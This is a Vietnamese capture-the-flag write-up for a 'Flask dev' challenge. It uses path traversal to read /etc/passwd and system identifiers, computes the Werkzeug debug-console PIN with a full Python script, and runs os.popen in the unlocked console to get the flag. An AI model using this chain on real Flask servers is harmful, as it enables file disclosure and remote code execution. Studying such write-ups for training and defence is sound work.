 # Flask dev

## **Tổng quan**

- Để giải được challenge này, ta cần vận dụng kiến thức về
- công cụ: Burpsuite

## Phân tích bài

- Truy cập trang web với giao diện như sau, có vẻ như mình không thể khai thác gì ở trang này, theo kinh nghiệm thì mình chắc chắn rằng trang web này có directory ẩn, vì thế mình dùng chức năng active scan của burpSuite để tìm kiếm.

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled.png)

- Sau khi tìm thì mình phát hiện trang web có /robots.txt

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%201.png)

- Truy cập vào thì có vẻ như trang này không tồn tại, tuy nhiên ta biết được trang web này bị bug

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%202.png)

- Test sơ qua 1 lúc thì mình tìm được phần chạy console, tuy nhiên có vẻ như cần phải có mã pin để sử dụng được chức năng này.

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%203.png)

- Sau khi Burp Scan xong, mình tiếp tục phát hiện trang web đã bị lỗi path-traversal.

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%204.png)

- Test với payload : `GET /../../../etc/passwd`

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%205.png)

- Mình thử truy cập đường dẫn tới mã nguồn của bài thông qua bug của nó bằng LFI

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%206.png)

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%207.png)

- Tuy nhiên mã nguồn ở đây rất dài (hơn 2000 dòng) và mình cũng không khai thác được gì ở đây, dựa vào hint của bài và console yêu cầu phải kiếm được mã pin, thì mình tìm được một bài viết nói về lỗi bảo mật **Pin-code PathTraversal**

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%208.png)

- Theo bài viết, nếu như xuất hiện LFI, ta có thể tận dụng nó để lấy những thông tin cần thiết và tạo được mã pin bằng **Werkzeug Console Pin Exploit**
- Những phần ta cần phải lấy gồm 2 phần
    
    ```python
    # PART 1
    probably_public_bits = [
    username,
    modname,
    getattr(app, '**name**', getattr(app.**class**, '')),
    getattr(mod, '**file**', None),
    ]
    # PART 2
    private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
    ]
    ```
    

---

## PART 1: `probably_public_bits`

`username` là **user** của FLASK

`modname` là **flask.app**

`getattr(app, '__name__', getattr (app .__ class__, '__name__'))` là **Flask**

`getattr(mod, '__file__', None)` là đường dẫn của `app.py` trong bài này nó sẽ là `/usr/local/lib/python3.8/dist-packages/flask/app.py`). nếu `app.py` không được hãy thử `app.pyc`

---

## PART 2: **`private_bits**uuid.getnode()`

Đây là cách tìm địa chỉ MAC của máy chủ:

- `str(uuid.getnode())` là biểu diễn thập phân của địa chỉ MAC.
- Để tìm địa chỉ MAC của máy chủ, cần biết giao diện mạng nào đang được dùng để phục vụ ứng dụng (ví dụ: ens3). Nếu không biết, có thể lấy thông tin thiết bị từ `/proc/net/arp.`
- Sau đó lấy địa chỉ MAC tại `/sys/class/net/<id thiết bị>/address.`
- Chuyển từ địa chỉ hex sang đại diện thập phân
- `get_machine_id()`  sẽ nối giá trị trong `/etc/machine-id` hoặc `/proc/sys/kernel/random/boot_id` với dòng đầu tiên của `/proc/self/cgroup` sau dấu gạch chéo cuối cùng `(/).`

- Bây giờ ta sẽ tiến hành tìm kiếm từng mảnh ghép, với PART 1 ta có các thông tin như sau

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%209.png)

- Với PART 2 ta cần tìm được địa chỉ MAC bằng cách dùng payload: `GET /../../proc/net/arp`

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2010.png)

- khi tìm được giao diện mạng là eth0, ta tiếp tục thay vào và dùng payload
`GET /../../sys/class/net/eth0/address`

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2011.png)

- Mình dùng tool Mac Address Converter để chuyển sang thập phân

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2012.png)

- Tiếp theo ta cần tìm kiếm `get_machine_id()`
- Mình thử `/etc/machine-id` không được nên chuyển sang `/proc/sys/kernel/random/boot_id`

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2013.png)

- Tiếp tục lấy  `/proc/self/cgroup` ta có , nhớ là lấy sau dấu `/` cuối cùng ở dòng đầu tiên

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2014.png)

- Tổng hợp PART 2 của mình như sau

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2015.png)

Kết hợp các mảnh ghép lại cùng với payload khai thác từ Werkzeug

```python
import hashlib
from itertools import chain

probably_public_bits = [
    "root", # /etc/passwd
    "flask.app",
    "Flask",
    "/usr/local/lib/python3.8/site-packages/flask/app.py",
]

private_bits = [
    "86364976190126",  # MAC -> int /sys/class/net/eth0/address
    "8b3c68e1-aae6-4987-b257-c109d9973594cricontainerd-b1a4cefadb30402ba88a9b25c94d816086108c78a2989e1aeddcc8b1242c8e06.scope"
        # /proc/sys/kernel/random/boot_id + /proc/self/cgroup
        
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

rv = None
num = None

if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x: x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

- Sau khi chạy code Python

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2016.png)

- Sau khi nhập xong, ta có thể truy cập vào terminal

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2017.png)

- Dùng payload sau để lấy flag

```python
>>> import os
>>> f = os.popen('/flag') 
>>> print(f.read())
```

![Untitled](Flask%20dev%2096c3149e37ec40f58626880d57fbaaef/Untitled%2018.png)